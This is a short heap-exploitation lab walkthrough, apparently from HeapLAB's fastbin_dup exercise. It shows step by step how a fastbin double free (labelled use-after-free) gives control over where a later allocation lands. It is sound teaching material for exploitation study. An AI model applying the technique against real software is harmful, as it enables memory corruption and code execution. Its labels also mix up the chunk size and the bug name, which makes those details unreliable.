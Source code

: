 ## Fastbin with Use-After-Free
*****************************************
1.- Request two 0x50 size chunk
```
chunk_A = malloc(24, b"A"*24)
chunk_B = malloc(24, b"B"*24)
```
![imagen1.png](https://github.com/ivanmedina/Pwning/tree/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen1.png)

2.- Free chunk A
```
free(chunk_A)
```
![imagen2.png](https://github.com/ivanmedina/Pwning/tree/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen2.png)

3.- Free chunk B
```
free(chunk_B)
```
![imagen3.png](https://github.com/ivanmedina/Pwning/tree/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen3.png)

4.- Free chunk A
```
free(chunk_A)
```
![imagen4.png](https://github.com/ivanmedina/Pwning/tree/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen4.png)

5.- malloc(24,b'C'*24)
```
malloc(24,b'C'*24)
```
![imagen5.png](https://github.com/ivanmedina/Pwning/tree/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen5.png)

6.- There are the CCCCCCC… where before was the 7020 pointer :O, so where will do now the Ds malloc?
```
malloc(24,b'D'*24)
```
![imagen6.png](https://github.com/ivanmedina/Pwning/tree/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen6.png)

7.- Yes, in the next chunk linked in the 0x20 fastbin list...
So now we will send some EEEE's
```
malloc(24,b'E'*24)
```
![imagen7.png](https://github.com/ivanmedina/Pwning/tree/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen7.png)

And now we can note that we controll where the next 0x20 fastbin will be allocated.